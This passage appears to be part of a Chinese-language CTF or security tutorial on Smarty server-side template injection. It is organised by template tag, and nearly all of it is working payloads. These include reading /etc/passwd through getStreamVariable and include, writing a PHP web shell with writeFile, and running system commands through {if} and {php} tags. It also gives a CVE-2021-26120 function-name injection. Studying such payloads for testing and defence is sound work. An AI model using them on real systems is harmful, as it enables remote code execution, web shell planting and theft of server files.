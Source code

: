 通过 self 标签来获取 Smarty 类的静态方法，比如 getStreamVariable 读文件

> 这种利用方式只存在于旧版本中，而且在 **3.1.30** 的 Smarty 版本中官方已经将 getStreamVariable 静态方法删除。

```php
{self::getStreamVariable("file:///etc/passwd")}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
```

##### literal标签

`{literal}` 标签可以让一个模板区域的字符原样输出。在 PHP5 环境下存在一种 PHP 标签，` <script language="php"></script>`，我们便可以利用这一标签进行任意的 PHP 代码执行。

```php
{literal}alert('xss');{/literal}
<script language="php">phpinfo();</script>   
```

##### IF标签

Smarty 的 `{if}` 条件判断和 PHP 的 if 非常相似，只是增加了一些特性。每个 `{if}` 必须有一个配对的` {/if}`，也可以使用 `{else} `和 `{elseif} `，全部的PHP条件表达式和函数都可以在 `{if}` 标签中使用。

```php
{if phpinfo()}{/if}
{if readfile ('/flag')}{/if}
{if show_source('/flag')}{/if}
{if system('cat /flag')}{/if}
```

##### PHP标签

Smarty3 官方手册中明确表示已经废弃 {php} 标签，不建议使用。在 Smarty3.1， {php} 仅在 SmartyBC 中可用。

```php
{php}echo id;{/php}
```

##### include标签

- 被[{include}](https://www.smarty.net/docs/en/language.function.include.tpl) 标签引入的文件只会单纯的输出文件内容，就算引入 php 文件也是如此。
- 无版本限制

```php
string:{include file='/etc/passwd'}
string:{include file='index.php'}
```

##### CVE-2021-26120

- [{function}](https://www.smarty.net/docs/en/language.function.function.tpl) 标签的 name 属性可以通过精心构造注入恶意代码。
- 在 3.1.39 版本修复，所以只有小于 3.1.39 能用。

```php
string:{function name='x(){};system(whoami);function '}{/function}
string:{function name='x(){};system("ls /");function '}{/function}
```
